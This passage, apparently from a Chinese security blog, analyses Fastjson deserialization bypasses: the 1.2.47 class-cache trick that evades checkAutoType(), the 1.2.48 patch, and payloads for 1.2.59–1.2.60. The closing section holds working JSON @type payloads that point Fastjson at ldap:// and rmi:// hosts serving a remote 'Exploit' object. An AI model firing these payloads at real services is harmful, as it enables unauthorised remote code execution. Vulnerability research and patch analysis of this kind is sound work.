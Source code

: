 在扫描第二部分的JSON数据时，由于前面第一部分JSON数据中的val键值”com.sun.rowset.JdbcRowSetImpl”已经缓存到Map中了，所以当此时调用`TypeUtils.getClassFromMapping()`时能够成功从Map中获取到缓存的类，进而在下面的判断clazz是否为空的if语句中直接return返回了，从而成功绕过`checkAutoType()`检测：

![img](https://drun1baby.top/2022/08/08/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Fastjson%E7%AF%8703-Fastjson%E5%90%84%E7%89%88%E6%9C%AC%E7%BB%95%E8%BF%87%E5%88%86%E6%9E%90/clazzBack.png)

### 补丁分析

由于1.2.47这个洞能够在不开启AutoTypeSupport实现RCE，因此危害十分巨大，看看是怎样修的。1.2.48中的修复措施是，在`loadClass()`时，将缓存开关默认置为False，所以默认是不能通过Class加载进缓存了。同时将Class类加入到了黑名单中。

调试分析，在调用TypeUtils.loadClass()时中，缓存开关cache默认设置为了False，对比下两个版本的就知道了。

1.2.48版本：

![img](https://drun1baby.top/2022/08/08/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Fastjson%E7%AF%8703-Fastjson%E5%90%84%E7%89%88%E6%9C%AC%E7%BB%95%E8%BF%87%E5%88%86%E6%9E%90/1248.png)

1.2.47版本：

![img](https://drun1baby.top/2022/08/08/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Fastjson%E7%AF%8703-Fastjson%E5%90%84%E7%89%88%E6%9C%AC%E7%BB%95%E8%BF%87%E5%88%86%E6%9E%90/1247.png)

导致目标类并不能缓存到Map中了：

![img](https://drun1baby.top/2022/08/08/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Fastjson%E7%AF%8703-Fastjson%E5%90%84%E7%89%88%E6%9C%AC%E7%BB%95%E8%BF%87%E5%88%86%E6%9E%90/FalseCache.png)

因此，即使未开启AutoTypeSupport，但com.sun.rowset.JdbcRowSetImpl类并未缓存到Map中，就不能和前面一样调用`TypeUtils.getClassFromMapping()`来加载了，只能进入后面的代码逻辑进行黑白名单校验被过滤掉：

![img](https://drun1baby.top/2022/08/08/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Fastjson%E7%AF%8703-Fastjson%E5%90%84%E7%89%88%E6%9C%AC%E7%BB%95%E8%BF%87%E5%88%86%E6%9E%90/SuccessFix.png)

## 0x09 Fastjson <= 1.2.61 通杀

### Fastjson1.2.5 <= 1.2.59

**需要开启AutoType**

JAVA

```
{"@type":"com.zaxxer.hikari.HikariConfig","metricRegistry":"ldap://localhost:1389/Exploit"}
{"@type":"com.zaxxer.hikari.HikariConfig","healthCheckRegistry":"ldap://localhost:1389/Exploit"}
```

### Fastjson1.2.5 <= 1.2.60

**需要开启 autoType：**

JAVA

```
{"@type":"oracle.jdbc.connector.OracleManagedConnectionFactory","xaDataSourceName":"rmi://10.10.20.166:1099/ExportObject"}

{"@type":"org.apache.commons.configuration.JNDIConfiguration","prefix":"ldap://10.10.20.166:1389/ExportObject"}
```
